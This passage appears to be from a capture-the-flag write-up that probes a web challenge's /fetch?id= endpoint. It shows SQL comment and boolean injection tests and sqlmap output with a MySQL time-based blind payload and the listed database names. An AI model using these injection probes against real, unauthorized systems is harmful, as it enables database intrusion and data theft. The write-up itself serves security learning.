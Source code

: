 The image sources show that they are fetched via a GET argument on ```/fetch```:

```
<img src="fetch?id=1" width="266" height="150">
<img src="fetch?id=2" width="266" height="150">
<img src="fetch?id=3" width="266" height="150">
```

Navigating directly to ```fetch?id=1``` and ```fetch?id=2``` returns the raw encodings of the images:


> ����JFIF�����ExifMM*JR(1Z�ih��paint.net 4.1��zzUNICODECREATOR: gd-jpeg v1.0 (using IJG JPEG v62), quality = 90 ��C (...)

Scripts may be injectable here since it is displaying the raw encoding in HTML, if access to uploading or altering images is achieved (possible flag?).

Navigating directly to ```fetch?id=3``` yields a 500 error:


> Internal Server Error
> The server encountered an internal error and was unable to complete your request. Either the server is overloaded or there is an error in the application.

However, navigating to further ids beyond 1,2,3 e.g. ```fetch?id=4```, ```fetch?id=5```, ```fetch?id=100```, ```fetch?id=0```, ```fetch?id=-1``` yields 404s:

> Not Found
> The requested URL was not found on the server. If you entered the URL manually please check your spelling and try again.

This is interesting and likely indicates the file at ```id=3``` does exist, but cannot be read for whatever reason, maybe lack of permissions or the ```id=3``` somehow causes an error on the backend code (probably contains a flag).

Testing this query further, using letters e.g. ```fetch?id=a```, ```fetch?id=zzz``` yields 500s.

This indicates ```fetch?id=``` may use a SQL query and parameter ```id``` is of type ```INT```.

Testing SQL comments injections ```fetch?id=1--%20comment``` and ```fetch?id=1#comment``` does not cause any errors and returns the same output. Likewise, trying AND injections e.g. ```fetch?id=1 AND 1=1``` returns the same output, and ```fetch?id=1 AND 1=2``` yields a 404. This confirms that ```fetch?id=``` uses a SQL query and is MySQL (only MySQL accepts # comments). This comment injection succeeding also indicates that the id parameter is either at the end of the SQL query or what is after the comment is inconsequential, which may or may not be important.

Running ```sqlmap``` on ```fetch?id=1``` with option ```--dbs``` finds:

```
sqlmap identified the following injection point(s) with a total of 653 HTTP(s) requests:
---
Parameter: id (GET)
    Type: time-based blind
    Title: MySQL >= 5.0.12 time-based blind - Parameter replace
    Payload: id=(CASE WHEN (1767=1767) THEN SLEEP(5) ELSE 1767 END)
---
web server operating system: Linux Ubuntu
web application technology: Nginx 1.14.0
back-end DBMS: MySQL >= 5.0.12
available databases [4]:
[*] information_schema
[*] level5
[*] mysql
[*] performance_schema
```
